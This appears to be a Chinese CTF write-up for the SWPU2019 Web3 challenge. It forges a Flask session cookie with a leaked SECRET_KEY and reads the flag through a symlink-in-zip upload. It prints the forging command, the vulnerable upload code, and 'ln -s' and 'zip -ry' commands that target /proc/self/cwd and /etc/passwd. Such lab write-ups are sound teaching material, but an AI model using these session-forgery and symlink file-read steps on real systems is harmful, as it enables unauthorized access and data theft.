





# SWPU2019-Web3

首先打开网页



首先是一个登录页面，发现不需要注册可以随便登录。然后登录之后的页面。



有一个文件上传的功能，但是点开发现提示`Permission denied!`权限不足。考虑应该是由`session`来判断权限。获取到session的值。

```
.eJyrVspMUbKqVlJIUrJS8g1xLFeq1VHKLI7PyU_PzFOyKikqTdVRKkgsLi7PLwIqVEpMyQWK6yiVFqcW5SXmpsKFagFxjxhY.aDgeIA.aNtJbmpVK-tzJ6smVh5kAMMo5Rs
```

用flask_session脚本解密

```
{'id': b'100', 'is_login': True, 'password': 'admin', 'username': 'admin'}
```

其中username属性和password属性均为admin，**可能后端是验证id属性的值**，尝试伪造session，但需要SECRET_KEY的值，SECRET_KEY是Flask中的通用密钥，主要在加密算法中作为一个参数，这个值的复杂度影响到数据传输和存储时的复杂度，密钥最好存储在系统变量中

通常访问不存在的目录时，会出现在请求头中，尝试访问：`http://xxx/test`目录：


然后在**F12**的**Network**中查看：



其中`Swpuctf_csrf_token: U0VDUkVUX0tFWTprZXlxcXF3d3dlZWUhQCMkJV4mKg==`，将其解码，得到：

```
SECRET_KEY:keyqqqwwweee!@#$%^&*
```

将其中`id`的值修改为`1`，构造本题所需的`session`：

```
{'id': b'1', 'is_login': True, 'password': 'admin', 'username': 'admin'}
```

使用flask_session_cookie_manager3.py加密脚本

```
python3 flask_session_cookie_manager3.py encode -s 'keyqqqwwweee!@#$%^&*' -t "{'id': b'1', 'is_login': True, 'password': 'admin', 'username': 'admin'}"
```

得到加密后的session

```
.eJyrVspMUbKqVlJIUrJS8g20tVWq1VHKLI7PyU_PzFOyKikqTdVRKkgsLi7PLwIqVEpMyQWK6yiVFqcW5SXmpsKFagFiyxgX.aDgfjw.67UrB3brQK6rjW9GfmQUCSFAN2Y
```

然后替换session再次点击upload，进入到文件上传页面。



在查看网页源码时，找到了注释中的源码：

```
@app.route('/upload',methods=['GET','POST'])
def upload():
    if session['id'] != b'1':
        return render_template_string(temp)
    if request.method=='POST':
        m = hashlib.md5()
        name = session['password']
        name = name+'qweqweqwe'
        name = name.encode(encoding='utf-8')
        m.update(name)
        md5_one= m.hexdigest()
        n = hashlib.md5()
        ip = request.remote_addr
        ip = ip.encode(encoding='utf-8')
        n.update(ip)
        md5_ip = n.hexdigest()
        f=request.files['file']
        basepath=os.path.dirname(os.path.realpath(__file__))
        path = basepath+'/upload/'+md5_ip+'/'+md5_one+'/'+session['username']+"/"
        path_base = basepath+'/upload/'+md5_ip+'/'
        filename = f.filename
        pathname = path+filename
        if "zip" != filename.split('.')[-1]:
            return 'zip only allowed'
        if not os.path.exists(path_base):
            try:
                os.makedirs(path_base)
            except Exception as e:
                return 'error'
        if not os.path.exists(path):
            try:
                os.makedirs(path)
            except Exception as e:
                return 'error'
        if not os.path.exists(pathname):
            try:
                f.save(pathname)
            except Exception as e:
                return 'error'
        try:
            cmd = "unzip -n -d "+path+" "+ pathname
            if cmd.find('|') != -1 or cmd.find(';') != -1:
				waf()
                return 'error'
            os.system(cmd)
        except Exception as e:
            return 'error'
        unzip_file = zipfile.ZipFile(pathname,'r')
        unzip_filename = unzip_file.namelist()[0]
        if session['is_login'] != True:
            return 'not login'
        try:
            if unzip_filename.find('/') != -1:
                shutil.rmtree(path_base)
                os.mkdir(path_base)
                return 'error'
            image = open(path+unzip_filename, "rb").read()
            resp = make_response(image)
            resp.headers['Content-Type'] = 'image/png'
            return resp
        except Exception as e:
            shutil.rmtree(path_base)
            os.mkdir(path_base)
            return 'error'
    return render_template('upload.html')


@app.route('/showflag')
def showflag():
    if True == False:
        image = open(os.path.join('./flag/flag.jpg'), "rb").read()
        resp = make_response(image)
        resp.headers['Content-Type'] = 'image/png'
        return resp
    else:
        return "can't give you"

```

应该为路由route.py中的upload页面的源码，对其进行源码审计：
在/upload路由中：

需要上传一个以.zip结尾的压缩图片
服务器进行解压
文件名不能存在/
**在/showflag路由中：**
**给出了flag的路径：./flag/flag.jpg**

unzip()存在软链接攻击，发现可以通过上传一个软链接的压缩包，来读取文件：

```
ln -s  		// linux的软链接 类似快捷方式
ln -s 		// /ect/passwd forever404 会出现一个forever404文本 里面包含有密码
/proc/self	// 记录系统运行的信息状态 cwd指向当前进程运行目录的一个符号链接 即Flask运行进程目录
```

构造上传所需的文件：

第一个命令是构造软链接，第二个命令是将软链接压缩

```
ln -s /proc/self/cwd/flag/flag.jpg tmp1
zip -ry tmp1.zip tmp1 
```

得到`tmp1.zip`文件，上传文件时，使用**BurpSuite**抓取数据包：

使用**Repeater**发送数据包，在**Response**中得到flag



